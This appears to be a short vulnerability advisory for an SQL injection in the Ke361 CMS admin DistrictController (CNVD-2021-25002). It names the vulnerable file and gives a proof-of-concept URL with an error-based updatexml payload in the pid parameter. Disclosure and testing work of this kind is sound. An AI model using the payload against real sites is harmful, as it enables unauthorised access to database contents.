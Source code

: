 # Ke361 DistrictController.class.php Background SQL injection vulnerability CNVD-2021-25002

## Vulnerability Description

Ke361 DistrictController.class.php index() function pid parameter has SQL injection vulnerability, through which database sensitive information can be obtained

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ke361</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://gitee.com/jcove/ke361</span>

## Vulnerability reappears

CMS Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232910449.png)

The vulnerable file is `Application/Admin/Controller/DistrictController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634142045802-bdf21a65-a663-4f35-afc2-bc3e70d44309.png)

Verify POC

```php
admin.php?s=/District/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634142062147-5e1703bb-91c6-44cd-8867-c3409540c2d8.png)



If you gain something, just like it